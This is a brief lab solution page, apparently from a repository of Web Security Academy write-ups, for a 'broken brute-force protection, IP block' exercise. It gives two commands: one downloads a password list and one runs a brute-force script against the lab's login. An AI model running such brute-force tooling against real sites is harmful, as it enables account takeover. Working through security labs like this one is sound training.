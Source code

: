 # Broken brute-force protection, IP block

# Solution
```bash
wget https://raw.githubusercontent.com/0xLegendKiller/OWASP-and-Other-Vuln/main/Authentication/Broken%20brute-force%20protection%2C%20IP%20block/pass.txt
python3 brute_ip_bypass.py https://ac931f751e78bf8ac0bd5d8e00610022.web-security-academy.net
```
